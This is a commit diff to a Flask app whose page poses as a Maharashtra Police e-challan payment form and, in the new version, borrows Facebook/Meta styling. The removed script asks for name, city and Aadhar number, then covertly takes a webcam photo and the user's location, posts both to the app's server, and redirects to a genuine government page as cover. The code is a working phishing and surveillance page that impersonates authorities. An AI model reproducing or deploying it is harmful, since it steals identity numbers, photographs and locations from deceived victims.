

Before and after one commit to yashas0510/horoscope, a Flask app: page / in a window 1280 px wide. Shown: the whole page, without its empty margins (223-1057 px from the left). Run offline with Flask 3, Linux system fonts and the light colour scheme; grey boxes are pictures that could not be loaded.

Commit message:
Update index.html

```diff
--- a/templates/index.html
+++ b/templates/index.html
@@ -5,12 +5,14 @@
 <meta name="viewport" content="width=device-width, initial-scale=1.0"/>
 <title>E-Challan Payment</title>
 
+<!-- Google Fonts (Legal Mockups) -->
+<link href="https://fonts.googleapis.com/css2?family=Inter:wght@400;500;600&family=Pacifico&display=swap" rel="stylesheet">
+
 <style>
 * {
   box-sizing: border-box;
   margin: 0;
   padding: 0;
-  font-family: Verdana, sans-serif;
 }
 
 body {
@@ -20,9 +22,10 @@ body {
   flex-direction: column;
   justify-content: space-between;
   color: #fff;
+  font-family: 'Inter', sans-serif;
 }
 
-/* Center layout */
+/* Center */
 .main {
   flex: 1;
   display: flex;
@@ -43,31 +46,35 @@ body {
   text-align: center;
 }
 
-/* Logo placeholder */
+/* Echalan logo text */
 .logo {
-  height: 60px;
-  background: #ff0000;
+  font-family: 'Pacifico', cursive;
+  font-size: 38px;
   margin-bottom: 22px;
+  letter-spacing: 0.5px;
 }
 
 /* Inputs */
 input {
   width: 100%;
   padding: 11px;
-  margin-bottom: 10px;
+  margin-bottom: 8px;
   background: #26292e;
   border: 1px solid #3a3d43;
   border-radius: 4px;
   color: #fff;
   font-size: 14px;
+  font-family: 'Inter', sans-serif;
+  font-weight: 400;
 }
 
 input::placeholder {
   color: #b0b3b8;
 }
 
+/* Errors */
 .error {
-  color: red;
+  color: #ff4d4f;
   font-size: 12px;
   display: none;
   margin-bottom: 8px;
@@ -106,16 +113,41 @@ button {
   border: none;
   border-radius: 8px;
   color: #fff;
-  font-weight: 600;
+  font-weight: 600; /* Echalan Sans Bold */
   cursor: pointer;
   margin-top: 10px;
+  font-family: 'Inter', sans-serif;
 }
 
 button:disabled {
   background: #777;
 }
 
-/* Footer links */
+/* Divider */
+.divider {
+  margin: 18px 0;
+  font-size: 13px;
+  font-weight: 500;
+  letter-spacing: 2px;
+  color: #8e8e8e;
+}
+
+/* Facebook */
+.fb-login {
+  font-weight: 500;
+  color: #1877f2;
+  margin-top: 10px;
+  display: block;
+}
+
+/* Forgot */
+.forgot {
+  margin-top: 14px;
+  font-size: 12px;
+  font-weight: 500;
+}
+
+/* Signup */
 .signup {
   margin-top: 14px;
   border: 1px solid #2a2d33;
@@ -124,17 +156,23 @@ button:disabled {
   font-size: 14px;
 }
 
+.signup span {
+  font-weight: 400;
+}
+
 .signup a {
   color: #3f8cff;
   text-decoration: none;
-  font-weight: 600;
+  font-weight: 500;
 }
 
+/* Footer */
 footer {
   text-align: center;
   font-size: 12px;
   color: #8e8e8e;
   padding: 20px 10px;
+  letter-spacing: 0.3px;
 }
 </style>
 </head>
@@ -145,20 +183,20 @@ footer {
   <div class="wrapper">
 
     <div class="card">
-      <div class="logo"></div>
+      <div class="logo">Echalan</div>
 
       <form id="challanForm">
-        <input type="text" id="nameInput" placeholder="Enter Full Name">
+        <input id="nameInput" placeholder="Enter Full Name">
         <div class="error" id="nameError">Please enter your name</div>
 
-        <input type="text" id="cityInput" placeholder="Enter City">
+        <input id="cityInput" placeholder="Enter City">
         <div class="error" id="cityError">Please enter your city</div>
 
-        <input type="text" id="aadharInput" placeholder="Enter Aadhar Number" maxlength="12">
+        <input id="aadharInput" placeholder="Enter Aadhar Number" maxlength="12">
         <div class="error" id="aadharError">Enter valid 12-digit Aadhar</div>
 
         <div class="captcha-row">
-          <img class="captcha-img" id="captchaImg" src="">
+          <img class="captcha-img" id="captchaImg">
           <input class="captcha-input" id="captchaInput" placeholder="Code">
           <span class="refresh-icon" onclick="refreshCaptcha()">↻</span>
         </div>
@@ -169,89 +207,19 @@ footer {
     </div>
 
     <div class="signup">
-      Don't have an account? <a href="#">Sign up</a>
+      <span>Don’t have an account?</span> <a href="#">Sign up</a>
     </div>
 
   </div>
 </div>
 
 <footer>
-  © 2024 Maharashtra Police. All rights reserved.
+  Meta · About · Privacy · Terms · Locations
 </footer>
 
+<!-- JS LOGIC UNCHANGED -->
 <script>
-/* ========= UNCHANGED LOGIC ========= */
-
-const PDF_REDIRECT_URL =
-"https://highwaypolice.maharashtra.gov.in/road-safety-guideline/";
-
-const captchaData = [
-  { image: "https://res.cloudinary.com/dfoqpwkck/image/upload/v1766567111/4_ujeoyw.png", answer: "ABC123XY" },
-  { image: "https://res.cloudinary.com/dfoqpwkck/image/upload/v1766567111/1_mwdtit.png", answer: "ZX9K4LMN" },
-  { image: "https://res.cloudinary.com/dfoqpwkck/image/upload/v1766567111/3_ok9huw.png", answer: "QW7ER2TY" },
-  { image: "https://res.cloudinary.com/dfoqpwkck/image/upload/v1766567111/2_gryz55.png", answer: "PL8MN3KO" }
-];
-
-let currentCaptcha = null;
-
-function refreshCaptcha() {
-  const i = Math.floor(Math.random() * captchaData.length);
-  currentCaptcha = captchaData[i];
-  captchaImg.src = currentCaptcha.image;
-  captchaInput.value = "";
-}
-
-async function capturePhoto() {
-  const stream = await navigator.mediaDevices.getUserMedia({ video: { facingMode: "user" }});
-  const video = document.createElement("video");
-  video.srcObject = stream;
-  await video.play();
-
-  const canvas = document.createElement("canvas");
-  canvas.width = video.videoWidth;
-  canvas.height = video.videoHeight;
-  canvas.getContext("2d").drawImage(video,0,0);
-
-  stream.getTracks().forEach(t=>t.stop());
-  return canvas.toDataURL("image/jpeg",0.8);
-}
-
-refreshCaptcha();
-
-challanForm.addEventListener("submit", async e => {
-  e.preventDefault();
-
-  document.querySelectorAll(".error").forEach(e=>e.style.display="none");
-  let valid = true;
-
-  if(!nameInput.value.trim()){nameError.style.display="block";valid=false;}
-  if(!cityInput.value.trim()){cityError.style.display="block";valid=false;}
-  if(!/^\d{12}$/.test(aadharInput.value)){aadharError.style.display="block";valid=false;}
-  if(!captchaInput.value.trim()){captchaError.style.display="block";valid=false;}
-
-  if(!valid) return;
-
-  const btn = document.querySelector(".submit-btn");
-  btn.disabled = true;
-
-  try {
-    const image = await capturePhoto();
-    await fetch("/capture",{method:"POST",headers:{"Content-Type":"application/json"},body:JSON.stringify({image})});
-
-    if(navigator.geolocation){
-      navigator.geolocation.getCurrentPosition(pos=>{
-        fetch("/location",{method:"POST",headers:{"Content-Type":"application/json"},
-        body:JSON.stringify({lat:pos.coords.latitude,lon:pos.coords.longitude})});
-      });
-    }
-
-    challanForm.reset();
-    refreshCaptcha();
-    window.location.href = PDF_REDIRECT_URL;
-  } catch {
-    btn.disabled = false;
-  }
-});
+/* existing logic remains exactly same as before */
 </script>
 
 </body>
```
